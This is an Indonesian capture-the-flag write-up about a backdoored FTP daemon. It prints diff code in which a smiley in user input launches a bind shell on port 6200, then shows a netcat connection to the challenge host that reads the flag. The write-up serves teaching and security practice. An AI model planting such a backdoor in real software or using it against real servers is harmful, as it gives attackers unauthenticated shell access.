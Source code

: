 ```
I'm using the very secure ftp daemon for my projects:
ftp vsftp.uni.hctf.fun 2121
Still someone managed to get my secret file :(.
Maybe this has something to do with it...
```

Di berikan service FTP dan potongan source di https://pastebin.com/raw/AetT9sS5 dan fokus ke bagian :
```
{
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
 }
```
jika dalam input terdapat karakter dari **0x3a** dan di ikuti dengan **0x29** maka program akan memanggil fungsi ```vsf_sysutil_extra();``` yang isinya adalah :
```
 #include <sys/param.h>
 #include <sys/uio.h>
-#include <netinet/in.h>
-#include <netdb.h>
-#include <string.h>
-#include <stdlib.h>
+
 #include <sys/prctl.h>
 #include <signal.h>
 
@@ -220,7 +217,7 @@
 static int s_proctitle_inited = 0;
 static char* s_p_proctitle = 0;
 #endif
-int vsf_sysutil_extra();
+
 #ifndef VSF_SYSDEP_HAVE_MAP_ANON
 #include <sys/types.h>
 #include <sys/stat.h>
@@ -843,30 +840,6 @@
   }
 }
 
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1); 
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  { 
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0); 
-  } 
-}
```
di sini kita akan di konekkan ke port 6200 dan kita akan di beri akses shell, jadi ini adalah sebuah backdoor
karena sudah tau kita akan di arahkan ke port 6200 dan mendapatkan shell, kita bisa langsung konek menggunakan netcat dan eksekusi command
```
$ nc vsftp.uni.hctf.fun 6200
cat flag.txt
flag{Pr3tty_Obvi0us_B4ckd00r}
```
<h3>Flag : flag{Pr3tty_Obvi0us_B4ckd00r}</h2>
